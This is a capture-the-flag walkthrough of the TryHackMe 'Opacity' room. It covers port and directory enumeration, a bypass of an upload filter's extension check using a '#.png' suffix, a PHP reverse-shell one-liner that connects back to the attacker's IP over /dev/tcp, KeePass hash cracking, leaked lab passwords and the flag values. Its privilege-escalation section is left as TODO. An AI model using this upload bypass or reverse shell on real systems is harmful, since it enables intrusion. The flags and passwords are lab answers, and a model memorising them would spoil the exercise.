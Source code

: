 ```yaml
---
title: THM - Walkthrough - Opacity [Easy]
date: 2024-07-28 00:00:00 +/-TTTT
categories: [Walkthrough]
tags: [ctf, thm, easy]     # TAG names should always be lowercase
---
```


<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/328c078f7c5695439a46ba90ae48aaa0.png" width="200" height="200" />

Welcome to my writeups for the TryHackMe room Opacity. That's an easy room that will help you 
practice your web exploitation and linux exploitations skills.
The room is available [here](https://tryhackme.com/room/opacity).

## Information Gathering

### Port Scanning

We start by using `nmap` to scan the target machine for open ports and services.

```
$ nmap -sV 10.10.86.31
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-28 12:38 EDT
Nmap scan report for 10.10.86.31
Host is up (0.22s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.07 seconds
```

We see that the target machine has the following services running:
- `SSH` on port 22
- `HTTP` on port 80
- `SMB` on ports 139 and 445

### Website Enumeration

Visiting the website at `http://10.10.86.31` we are redirected on `http://10.10.86.31/login.php` which is a login page.

![Login Page](assets/img/posts/walkthroughs/opacity/20240728_opacity_login_page.png)

#### Directory Enumeration

We use `gobuster` to find hidden directories on the website.

```
$ gobuster dir -u http://10.10.86.31/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o gobuster_dir_output.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.86.31/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 308] [--> http://10.10.86.31/css/]
/cloud                (Status: 301) [Size: 310] [--> http://10.10.86.31/cloud/]
...
```

We find a directory `/cloud` containing a index page.

![Cloud Directory](assets/img/posts/walkthroughs/opacity/20240728_opacity_cloud.png)

## Exploitation

### File Upload

We seems to have a file upload form on the page. We try to upload a PHP file by creating a simple HTTP server with Python (`$ python -m http.server 1234`) and a simple PHP file.

```php
<?php
phpinfo();
?>
```

Then we provide the URL of the PHP file to the upload form.

`http://10.2.34.126:1234/payload.php`

Unfortunately, the upload is blocked by the server. The server is checking the file extension and only allows images file extensions.

![Upload Blocked](assets/img/posts/walkthroughs/opacity/20240728_opacity_fail_upload.png)

We can bypass this by using a PHP file with a valid image extension and bypassing the filter with a `#`.
The server will only check the extension after the `#` and not interpret it when making the GET request on our server. 

`payload.php#.png`

We provide the new URL to the upload form.

`http://10.2.34.126:1234/payload.php#.png`

![Upload Success](assets/img/posts/walkthroughs/opacity/20240728_opacity_successful_upload.png)

The upload is successful and we can then access the file at `http://10.10.86.31/cloud/images/payload.php`.

![phpinfo Injection](assets/img/posts/walkthroughs/opacity/20240728_opacity_phpinfo.png)

As we can see, the php file is executed and we can now inject PHP code.
(It is possible the server remove the file before you try to access it, you can try to upload it again)

### Reverse Shell

We can now inject a reverse shell in the PHP file after setting up a listener on our machine.

```php
<?php
echo shell_exec("bash -c 'exec bash -i &>/dev/tcp/10.2.34.126/1235 <&1'");
?>
```

Following the same process as before, we upload the file with the `.png` extension and access it at `http://10.10.86.31/cloud/images/payload.php`.

And now we have a reverse shell on the target machine.

![Whoami](assets/img/posts/walkthroughs/opacity/20240728_opacity_whoami.png)

### Local Enumeration **TODO**


In the web server directory (`/var/www/html/`), we find a file `login.php` containing the following code.

```php
<?php session_start(); /* Starts the session */

        /* Check Login form submitted */
        if(isset($_POST['Submit'])){
                /* Define username and associated password array */
                $logins = array('admin' => 'oncloud9','root' => 'oncloud9','administrator' => 'oncloud9');

                ...
        }
?>
```

We can see that the login form is checking for the username `admin`, `root` or `administrator` with the password `oncloud9`.

We can also find a `dataset.kdbx` file in the `/opt` directory.

`.kdbx` files are Keepass password manager databases. We can try to crack the password of the database to get more credentials.

### Keepass Crack

We download the `dataset.kdbx` file to our machine and use `keepass2john` to extract the hash.

With the hash, we can use `john` to crack the password of the database.

![Keepass Database](assets/img/posts/walkthroughs/opacity/20240728_opacity_keepass_crack.png)

The crack is successful with the default password list and we get the password `741852963`.

With the password, we can open the database with `keepassxc` and find the credentials for the user `sysadmin`.

![Keepassxc](assets/img/posts/walkthroughs/opacity/20240728_opacity_keepassxc.png)

We can now log in as `sysadmin` with the password `Cl0udP4ss40p4city#8700` and get the user flag located in the home directory.

![Whoami sysadmin](assets/img/posts/walkthroughs/opacity/20240728_opacity_whoami_sysadmin.png)

![Local flag](assets/img/posts/walkthroughs/opacity/20240728_opacity_local_flag.png)

`6661b61b44d234d230d06bf5b3c075e2`

## Post Exploitation

### Privilege Escalation

**TODO**

![Root flag](assets/img/posts/walkthroughs/opacity/20240728_opacity_root_flag.png)

`ac0d56f93202dd57dcb2498c739fd20e`